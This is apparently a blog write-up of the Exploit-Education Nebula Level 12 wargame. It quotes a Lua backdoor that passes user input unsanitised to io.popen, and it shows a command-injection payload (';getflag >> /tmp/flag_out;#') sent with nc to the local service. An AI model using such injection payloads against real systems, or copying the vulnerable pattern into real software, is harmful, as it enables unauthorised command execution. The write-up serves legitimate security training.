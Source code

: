 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 12"
date:   2019-08-19 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 12](https://exploit.education/nebula/level-12/)

## Challenge
There is a backdoor process listening on port `50001`.

To do this level, log in as the `level12` account with the password `level12`. Files for this level can be found in `/home/flag12`.
The program is written is `lua`. 
After analysis the program I understood that it does the following.

1. receives input from the user
2. calls a function `hash` with the user input as the argument
3. the function `hash` executes the following command `echo "..password.." | sha1sum`
4. return the `sha1` hash of the input

My first attempt was to crack the hash somehow. I tried few `rainbow tables`. But it didn't work. 
## Vulnerability
The program is vulnerable to `command injection`
```lua
prog = io.popen("echo "..password.." | sha1sum", "r")
```
We can simply add our own commands by adding a `;` to `password` because the program doesn't do any
checks on the user input.
## Solution
Lets just run `getflag` and pipe the output to a file
```bash
level12@nebula:/tmp$ nc 127.0.0.1 50001
Password: ;getflag >> /tmp/flag_out;#
Better luck next time
level12@nebula:/tmp$ cat /tmp/flag_out
You have successfully executed getflag on a target account
```
### Solved!